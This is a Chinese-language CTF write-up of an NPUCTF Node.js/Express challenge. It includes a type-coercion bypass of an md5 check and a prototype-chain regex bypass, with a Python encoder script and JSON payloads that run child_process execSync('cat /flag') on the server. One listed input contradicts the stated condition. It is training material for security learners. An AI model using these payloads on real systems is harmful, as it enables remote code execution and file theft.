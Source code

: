 ```yaml
---
Author: SuperJason
Date: 2020-1-14
---
```


## 思路

1. 打开页面，审计源码。   
   ![](images/npuctf-验证码-1.png)
2. 本题使用了express服务器，基于nodejs，需要输入正确的`e、first、second`，服务器会将公式经过正则过滤后执行，调用eval函数。
    ```javascript
    app.post('/', function (req, res) {
    let result = '';
    const results = req.session.results || [];
    const { e, first, second } = req.body;
    if (first && second && first.length === second.length && first!==second && md5(first+keys[0]) === md5(second+keys[0])) {
        if (req.body.e) {
        try {
            result = saferEval(req.body.e) || 'Wrong Wrong Wrong!!!';
        } catch (e) {
            console.log(e);
            result = 'Wrong Wrong Wrong!!!';
        }
        results.unshift(`${req.body.e}=${result}`);
        }
    }
    ```
3. 两个验证码内容不同，长度相等，且加盐后的md5值相同，利用js强制类型转化。由于后端可解析json，利用json数据构造类型转换。利用burpsuite是需要将请求头文本内容改为`Content-Type: application/json`，传入以下json数据，得到公式结果。
- {"e":"1+1","first":"1","second":[1]}
- {"e":"1+1","first":"1","second":"1"}
  ![](images/npuctf-验证码-2.png)
4. 参考[wp](https://blog.csdn.net/weixin_43610673/article/details/105898440)。为了绕过正则表达式，使用了箭头函数从原型链导出String和Function，脚本如下
```python
import re
encode = lambda code: list(map(ord,code))
decode = lambda code: "".join(map(chr,code))
a=f"""
(m0=>(
		m0=m0.constructor,
		m0.x=m0.constructor(
			m0.fromCharCode({encode("return process.mainModule.require('child_process').execSync('cat /flag')")})
		)()
	))(Math+1)
"""
a=re.sub(r"[\s\[\]]", "", a).replace("m0","Math")
print(a)
```
5. payload如下
- {"e":"(Math=>(Math=Math.constructor,Math.x=Math.constructor(Math.fromCharCode(114,101,116,117,114,110,32,112,114,111,99,101,115,115,46,109,97,105,110,77,111,100,117,108,101,46,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,83,121,110,99,40,39,99,97,116,32,47,102,108,97,103,39,41))()))(Math+1)","first":"1","second":[1]}
- {"e":"(Math=>(Math=Math.constructor,Math.x=Math.constructor(Math.fromCharCode(114,101,116,117,114,110,32,112,114,111,99,101,115,115,46,109,97,105,110,77,111,100,117,108,101,46,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,83,121,110,99,40,39,99,97,116,32,47,102,108,97,103,39,41))()))(Math+1)","first":{"length":"1"},"second":{"length":"1"}}
  ![](images/npuctf-验证码-3.png)

6. payload分为两部分，构造函数利用链+经过String.fromCharCode编码的载荷
- 构造函数利用链  ```(Math=>(Math=Math.constructor,Math.x=Math.constructor(Math.fromCharCode({编码后的payload}))()))(Math+1)```
- 未经过编码的载荷  ```return process.mainModule.require('child_process').execSync('cat /flag')```
## 总结
之前只知道express和原型链，现在算是加深了对他们的理解，有点类似于php魔法函数的感觉。本题核心漏洞点在于使用eval函数执行用户可控的数据，且正则过滤不完全。
- 两个验证码内容不同，长度相等，且加盐后的md5值相同，考虑强制类型转化
    - {"first":"1","second":[1]}
    - {"first":"1","second":"1"}
- 使用原型链绕过re，构造出String.fromCharCode函数，编码载荷让后端express执行。
- [nodejs常见漏洞](https://threezh1.com/2020/01/30/NodeJsVulns/)